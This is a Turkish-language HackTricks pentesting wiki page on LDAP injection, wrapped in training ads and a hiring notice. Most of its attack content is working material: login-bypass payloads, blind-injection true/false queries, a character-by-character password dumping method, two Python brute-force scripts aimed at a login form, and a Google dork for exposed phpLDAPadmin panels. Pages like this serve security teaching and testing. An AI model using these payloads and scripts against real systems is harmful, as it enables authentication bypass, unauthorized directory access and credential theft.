 # LDAP Injection

## LDAP Injection

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hack etmek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## LDAP Injection

### **LDAP**

**LDAP nedir öğrenmek istiyorsanız, aşağıdaki sayfaya erişin:**

{% content-ref url="../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

**LDAP Injection**, kullanıcı girdisinden LDAP ifadeleri oluşturan web uygulamalarını hedef alan bir saldırıdır. Uygulama, girişi **doğru bir şekilde temizlemediğinde** meydana gelir ve bu, saldırganların yerel bir proxy aracılığıyla **LDAP ifadelerini manipüle etmesine** olanak tanır; bu da yetkisiz erişim veya veri manipülasyonuna yol açabilir.

{% file src="../.gitbook/assets/EN-Blackhat-Europe-2008-LDAP-Injection-Blind-LDAP-Injection.pdf" %}

**Filtre** = ( filtercomp )\
**Filtrecomp** = ve / veya / değil / öğe\
**Ve** = & filtrelistesi\
**Veya** = |filtrelistesi\
**Değil** = ! filtre\
**Filtrelistesi** = 1\*filtre\
**Öğe**= basit / mevcut / alt dize\
**Basit** = attr filtretipi assertionvalue\
**Filtretipi** = _'=' / '\~=' / '>=' / '<='_\
**Mevcut** = attr = \*\
**Alt dize** = attr ”=” \[ilk] \* \[son]\
**İlk** = assertionvalue\
**Son** = assertionvalue\
**(&)** = Kesin DOĞRU\
**(|)** = Kesin YANLIŞ

Örneğin:\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

Veritabanına erişebilirsiniz ve bu, birçok farklı türde bilgi içerebilir.

**OpenLDAP**: Eğer 2 filtre gelirse, yalnızca birincisini çalıştırır.\
**ADAM veya Microsoft LDS**: 2 filtre ile bir hata verirler.\
**SunOne Directory Server 5.0**: Her iki filtreyi de çalıştırır.

**Filtreyi doğru sözdizimi ile göndermek çok önemlidir, aksi takdirde bir hata oluşur. Sadece 1 filtre göndermek daha iyidir.**

Filtre `&` veya `|` ile başlamalıdır.\
Örnek: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

Sonra: `(&(objectClass=`**`*)(ObjectClass=*))`** ilk filtre (çalıştırılan) olacaktır.

### Giriş Atlatma

LDAP, şifreyi saklamak için birkaç formatı destekler: açık, md5, smd5, sh1, sha, crypt. Yani, şifreye ne koyarsanız koyun, hashlenmiş olabilir.
```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
#### Listeler

* [LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_FUZZ.txt)
* [LDAP Nitelikleri](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt)
* [LDAP PosixAccount nitelikleri](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### Kör LDAP Enjeksiyonu

Herhangi bir verinin döndürülüp döndürülmediğini kontrol etmek ve olası bir Kör LDAP Enjeksiyonunu doğrulamak için Yanlış veya Doğru yanıtları zorlayabilirsiniz:
```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Dump data

Ascii harfler, rakamlar ve semboller üzerinde döngü yapabilirsiniz:
```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
### Scripts

#### **Geçerli LDAP alanlarını keşfet**

LDAP nesneleri **varsayılan olarak birkaç öznitelik içerir** ve bu öznitelikler **bilgi saklamak için kullanılabilir.** Bu bilgiyi çıkarmak için **hepsini brute-force ile denemeyi** deneyebilirsiniz. [**Varsayılan LDAP özniteliklerinin bir listesini buradan bulabilirsiniz**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt).
```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
value = ""
finish = False
while not finish:
for char in alphabet: #In each possition test each possible printable char
query = f"*)({attribute}={value}{char}*"
data = {'login':query, 'password':'bla'}
r = requests.post(url, data=data, proxies=proxy)
sys.stdout.write(f"\r{attribute}: {value}{char}")
#sleep(0.5) #Avoid brute-force bans
if "Cannot login" in r.text:
value += str(char)
break

if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
finish = True
print()
```
#### **Özel Blind LDAP Enjeksiyonu (\"\*\" olmadan)**
```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
print("[i] Looking for number " + str(i))
for char in alphabet:
r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
if ("TRUE CONDITION" in r.text):
flag += char
print("[+] Flag: " + flag)
break
```
### Google Dorks
```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```
### Daha Fazla Payload

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hackleme kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı yazılı ve sözlü Lehçe gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hackleme ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
